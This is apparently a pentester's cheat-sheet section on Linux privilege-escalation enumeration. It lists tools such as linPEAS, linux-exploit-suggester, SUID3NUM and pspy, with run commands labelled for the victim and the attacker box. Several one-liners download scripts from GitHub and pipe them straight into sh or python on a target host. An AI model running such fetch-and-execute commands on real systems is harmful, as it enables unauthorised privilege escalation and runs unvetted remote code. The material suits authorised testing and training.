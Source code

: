 
#### linPEAS

* [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

```
$ sh <(wget -qO- https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh) -q | tee /dev/shm/out.txt
```


#### linux-exploit-suggester

* [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)

Locally on target:

```
$ sh <(wget -qO- https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh) | tee /dev/shm/out.txt
```

On Attacker box providing `uname` output from Victim:

```
Victim$ uname -a
Attacket$ curl -sL https://github.com/mzet-/linux-exploit-suggester/raw/master/linux-exploit-suggester.sh > les.sh && chmod +x les.sh
Attacket$ ./les.sh --uname <UNAME_STRING>
```


#### SUID3NUM

* [https://github.com/Anon-Exploiter/SUID3NUM](https://github.com/Anon-Exploiter/SUID3NUM)

```
$ python <(wget -qO- https://raw.githubusercontent.com/Anon-Exploiter/SUID3NUM/master/suid3num.py)
```


#### htbenum

* [https://github.com/SolomonSklash/htbenum](https://github.com/SolomonSklash/htbenum)


#### pspy

* [https://github.com/DominicBreuker/pspy](https://github.com/DominicBreuker/pspy)

A lightweight alternative with Bash:

{% code title="pspy.sh" %}
```bash
#!/usr/bin/env bash

old=$(ps -eo command)

while true; do
        new=$(ps -eo command)
        diff <(echo "$old") <(echo "$new") | grep [\<\>]
        sleep .3
        old=$new
done
```
{% endcode %}
